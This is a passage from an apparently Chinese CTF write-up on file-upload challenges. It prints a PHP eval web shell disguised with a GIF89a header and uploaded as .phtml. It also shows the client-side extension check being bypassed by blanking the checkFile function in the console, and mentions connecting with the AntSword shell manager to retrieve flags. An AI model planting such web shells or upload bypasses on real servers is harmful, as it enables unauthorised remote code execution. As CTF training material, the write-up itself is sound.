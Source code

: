 猜测上传后的文件在/upload/b.phtml，浏览器输入该地址验证，有显示，说明是该路径。

使用蚁剑连接。

flag{51e6c344-c9bc-4568-ac5b-7e30ed4e4ce5}

### [ACTF2020 新生赛]Upload

传了一个phtml文件，

```assembly
GIF89a
<script language="php">eval($_POST['melody']);</script> 
```

显示

`该文件不允许上传，请上传jpg、png、gif结尾的图片噢！`

F12发现检查在前端，`/js/main.js`

```assembly
function checkFile() {
    var file = document.getElementsByName('upload_file')[0].value;
    if (file == null || file == "") {
        alert("璇烽€夋嫨瑕佷笂浼犵殑鏂囦欢!");
        return false;
    }
    //瀹氫箟鍏佽涓婁紶鐨勬枃浠剁被鍨�
    var allow_ext = ".jpg|.png|.gif";
    //鎻愬彇涓婁紶鏂囦欢鐨勭被鍨�
    var ext_name = file.substring(file.lastIndexOf("."));
    //鍒ゆ柇涓婁紶鏂囦欢绫诲瀷鏄惁鍏佽涓婁紶
    if (allow_ext.indexOf(ext_name) == -1) {
        var errMsg = "璇ユ枃浠朵笉鍏佽涓婁紶锛岃涓婁紶jpg銆乸ng銆乬if缁撳熬鐨勫浘鐗囧櫌锛�";
        alert(errMsg);
        return false;
    }
}
```

直接修改前端，删除form标签的`onsubmit="return checkFile()"`，不行，原来是要在console里将checkFile函数置空

```assembly
checkFile={}
```

上传刚才的文件，显示

`嘿伙计，你发现它了！`

`Upload Success! Look here~ ./uplo4d/085efa22dc274944b80b550bc5cf7deb.phtml`

蚁剑连接。

flag{24b96f03-50ee-42d2-bd5f-d502886b425d}

### [MRCTF2020]你传你🐎呢

